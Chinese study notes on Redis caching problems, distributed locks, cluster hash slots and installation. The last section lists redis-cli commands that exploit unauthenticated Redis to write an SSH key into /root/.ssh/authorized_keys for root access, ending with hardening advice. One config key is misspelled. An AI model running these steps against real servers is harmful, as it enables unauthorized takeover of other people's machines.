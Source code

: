 ## 缓存雪崩
1. 缓存层缓存的多条数据，在某一时间突然失效，导致大量请求打向mysql数据库
 - 可能redis缓存的数据的有效期一致，同时失效
 - 解决：数据有效期随机
 - redis数据库宕机
 - 解决：搞集群，多层缓存

## 缓存击穿
1. redis中一条及其热门的数据失效，导致大量请求打向mysql数据库，一般公司不需要解决
2. 解决：使用分布式锁

## 分布式锁
1. 使用环境：共享资源，多任务环境，共享资源互斥。需要上锁。（多线程争抢不可以同时使用的同一个资源）
2. 使用mysql锁，死锁问题
3. 可以加一个监视进程，设置锁timeout
4. timeout设置长度是问题，太短可能发生资源并发问题，太长效率可能发生问题，所以一般不用
5. 使用zookeeper实现分布式锁
6. zookeeper:分布式一致性服务协调框架，弱一致性。可以使用同步命令达成最终一致性。
7. 文件系统与事件通知机制
8. 内部维护一个全局有序唯一序号
9. 创建有序临时节点，查看自己是否是序号最小的临时节点，则获取到锁

## cluster hash一致性算法
1. 一致性需要进行hash取模，对扩展不友好
2. 使用hash环，cluster有16384个slot（虚拟节点、hash槽）
3. 将slot映射给不同的redis节点
4. 数据key取模
5. 数据按顺时针存储到对应slot的节点上
6. redis节点扩展只需要迁移两个节点的数据
7. 弊端：会发生数据倾斜

## redis安装
1. linux需要gcc：yum -y install gcc gcc-c++ kernel-devel
2. 下载redis源码包：redis-5.0.10.tar
3. 解压
4. 进入redis目录
5. 执行 make && make install
6. 如果发生： jemalloc/jemalloc.h: No such file or directory。可能是因为我们在开始执行make 时遇到了错误（大部分是由于gcc未安装），然后我们安装好了gcc 后，我们再执行make ,这时就出现了jemalloc/jemalloc.h: No such file or directory。
7. 执行： make distclean  && make  清理残留的文件

## 利用redis-cli攻击服务器
[Redis 未授权访问漏洞深度利用](https://blog.csdn.net/qq_27446553/article/details/78096385)
### 利用漏洞ssh免密连接
1. redis-cli连接到服务器的redis
2. 查看redis的信息：info server
3. 查看redis所有配置：config get *
4. 修改redis工作目录：config set dir /root/.ssh
5. 修改redis数据存储目录：config set dbfliename authorized_keys
6. 将ssh的公钥放入authorized_keys文件：set 0 '\n\n\n公钥\n\n\n'
7. 保存：save
8. 回复redis原本配置
9. 这个方法利用redis的无授权访问漏洞，凭借这个方法可以写linux上的所有文件，但是无法读。
10. 也可以借此修改服务器的root密码
11. 所以要做好安全防护，如：开启redis的保护模式，设置密码，限制访问ip。linux禁止root登陆，管理员锁定账号等等。